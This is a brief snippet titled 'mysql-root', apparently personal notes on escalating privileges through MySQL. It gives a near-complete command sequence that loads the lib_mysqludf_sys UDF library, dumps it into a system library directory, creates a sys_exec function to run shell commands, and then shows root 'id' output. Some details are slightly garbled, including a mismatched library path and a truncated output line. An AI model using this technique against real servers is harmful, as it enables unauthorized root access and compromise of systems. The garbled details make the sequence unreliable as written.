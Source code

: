 # mysql-root

mysql> create table npn(line blob);

mysql> insert into npn values(load_file('/home/npn/lib_mysqludf_sys.so'));

mysql> select * from npn into dumpfile '/usr/lib/lib/_mysqludf_sys.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

mysql> select sys_exec('id > /tmp/out; chown npn.npn /tmp/out');

cd ~/

id

uid=0(root) gid=0(root groups=0(root)

